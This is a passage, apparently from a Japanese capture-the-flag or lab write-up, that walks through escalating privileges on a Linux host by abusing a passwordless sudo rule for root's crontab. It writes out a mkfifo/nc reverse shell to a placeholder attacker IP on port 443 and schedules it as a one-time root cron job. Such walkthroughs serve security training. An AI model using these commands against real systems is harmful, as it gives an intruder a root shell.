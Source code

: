 すると、`admin` というセッションに `samezima` というユーザで管理しているシェルが存在していることがわかります。

続いて、samezima ユーザで列挙を行います。 
ユーザはsudoを用いて管理者権限でコマンドを行えるように設定をしていることがあります。そのため、 `sudo -l` を実行して、管理者権限でコマンドが実行できるようになっていないか確認してみます。

```shell=
$ sudo -l
Matching Defaults entries for samezima on ayumi:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User samezima may run the following commands on ayumi:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/crontab -u root -l, /usr/bin/crontab -u root -e
```

どうやら、root の crontab がパスワード無しで実行できるよう設定されているようです。これは権限昇格に利用できますね。

[Reverse Shell Generator](https://www.revshells.com/) を使って下記のような reverse shell のコマンドを作り、crontab に追記します。
```shell=
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker_ip> 443 >/tmp/f
```

```shell=
$ date
Wed Jun 11 15:25:54 UTC 2025
$ sudo crontab -u root -e
```

問題なく編集ができたので、一度だけ実行される cronjob を記述しました(下記は 6/11 15:35 に実行する例。date コマンドからUTC+00:00の時刻で動いているサーバであることに注意してください。)。

```shell
35 15 11 06 * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker_ip> 443 >/tmp/f
```
![](./images/pe4.png)
